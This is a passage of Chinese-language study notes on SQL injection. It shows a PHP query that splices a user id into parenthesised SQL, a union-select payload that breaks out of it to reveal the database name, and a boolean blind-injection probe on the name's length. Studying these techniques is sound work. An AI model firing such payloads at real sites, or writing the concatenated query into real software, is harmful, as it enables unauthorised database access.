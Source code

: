 

#### 包含括号——框架型

```php
$sql="select * from news where (id='$id')";
```



```
') union select 1,2,3,database(),5,6 and ('=
```

![image-20240318091729896](../图片/image-20240318091729896.png)



### 盲注

#### 布尔盲注——需要数据库输出回显

数据库名长度为6的时候未出现报错，所以数据库名长度为6

```
and length(database())=6;
```

